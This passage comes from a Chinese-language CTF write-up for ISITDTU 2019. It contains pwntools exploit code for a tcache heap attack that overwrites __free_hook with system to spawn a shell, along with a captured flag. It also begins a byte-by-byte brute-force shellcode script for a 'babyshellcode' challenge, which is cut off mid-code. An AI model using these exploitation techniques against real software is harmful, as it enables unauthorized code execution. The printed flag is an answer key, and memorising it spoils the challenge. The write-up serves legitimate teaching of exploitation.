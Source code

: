 ```python
add(0x88,p64(libc.sym['__free_hook']))
add(0x88,'/bin/sh\x00')
add(0x88,p64(libc.sym['system']))
free(4)
#gdb.attach(p,'b *0x000000000400C05')
#ISITDTU{TcAch3_C4ch3_F1LL1Ng_UnL1NKKKKKK_1Z_h34P_LvTw0}  

p.interactive()
```
# babyshellcode
每天时间有限当时没仔细看...没有发现init_array里的函数.
还以为要用alarm 拿shell..事实上只要把被加密过的flag搞出来就可以了
因为开头8字节我们已经知道了所以随机数也没什么意义了直接逐个字节爆破就可以了,原谅我可怜的编码水平.
同时还 get 到了alarm 可以通过再次调用一次来覆盖掉原来的.例如
```
while(1)
    alarm(1);
```
只要cpu循环一次的时间小于一秒那么就永远不会`timeout`,用处是某些需要长时间的exp可以调用alarm来续命.
```python
from pwn import *
import string
p=0
flag="ISITDTU{"
def debug():
	global p,flag
	gdb.attach(p,'''
	b *0x000555555554D3C
	c
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	si
	''')
context.log_level='critical'
context.arch='amd64'
def exp(idx,guess):
	global p,flag
	#p=process('./babyshellcode')
	p=remote("127.0.0.1",1024)
	#if idx==1 and guess=='1':
	#	debug()
	#nc 209.97.162.170 2222 
	#0x7b55544454495349
	s='''
	mov rbx,0x7b55544454495349
	shr rbx,{}
	and rbx,0xff
	mov rdi,{}
```

[1]: https://github.com/n132/WriteUps/tree/master/2019_ISITDTU
